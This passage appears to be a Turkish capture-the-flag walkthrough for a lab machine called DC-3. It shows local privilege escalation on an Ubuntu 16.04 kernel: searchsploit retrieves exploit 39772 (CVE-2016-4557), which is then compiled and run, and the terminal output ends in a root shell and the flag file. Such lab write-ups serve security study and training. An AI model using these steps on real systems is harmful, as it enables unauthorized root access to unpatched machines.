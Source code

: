 Kernel sürümünün eski olduğu görülmektedir. İlk olarak Dirty-COW adı verilen zafiyet ile yetki yükseltilmeye çalışılmıştır. Ancak www-data kullanıcısı login işlemine kapalı olduğundan /etc/passwd üzerinde yapılan her değişiklikten sonra sistem crash olmuştur.

 *Linux Kernel 4.4.x çekirdeğine sahip Ubuntu 16.x sisteminde “Linux Kernel 4.4.x (Ubuntu 16.04) – ‘double-fdput()’ bpf(BPF_PROG_LOAD) Privilege Escalation” isimli CVE-2016-4557 ID’li kritik bir zafiyet bulunmaktadır.* Searchsploit üzerinde arama yapılır.

```bash
searchsploit Linux Kernel 4.4.x
```

```bash
------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                            |  Path
------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalat | linux/local/39772.txt
```
Searchsploit üzerinden exploit bilgisayara indirilir.
```bash
searchsploit -m 39772
```
İndirilen exploit dosyası localhosttan hedef makinaya indirilir. Daha sonra zip ve tar arşiv dosyaları çıkarılır. 
```terminal
www-data@DC-3:/tmp/39772/ebpf_mapfd_doubleput_exploit$ ls -lsa
ls -lsa
total 28
4 drwxr-x--- 2 www-data www-data 4096 Apr 26  2016 .
4 drwxr-xr-x 4 www-data www-data 4096 Sep 29 08:29 ..
4 -rwxr-x--- 1 www-data www-data  155 Apr 26  2016 compile.sh
8 -rw-r----- 1 www-data www-data 4188 Apr 26  2016 doubleput.c
4 -rw-r----- 1 www-data www-data 2186 Apr 26  2016 hello.c
4 -rw-r----- 1 www-data www-data  255 Apr 26  2016 suidhelper.c
www-data@DC-3:/tmp/39772/ebpf_mapfd_doubleput_exploit$ ./compile.sh
./compile.sh
doubleput.c: In function 'make_setuid':
doubleput.c:91:13: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .insns = (__aligned_u64) insns,
             ^
doubleput.c:92:15: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
    .license = (__aligned_u64)""
               ^
```   
Derleme sonucu oluşturulan binary dosyası çalıştırılarak yetki yükseltme işlemi tamamlanır.

```terminal
www-data@DC-3:/tmp/39772/ebpf_mapfd_doubleput_exploit$ ./doubleput
./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
root@DC-3:/tmp/39772/ebpf_mapfd_doubleput_exploit# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@DC-3:/tmp/39772/ebpf_mapfd_doubleput_exploit# cd /root
cd /root
root@DC-3:/root# ls
ls
the-flag.txt
```
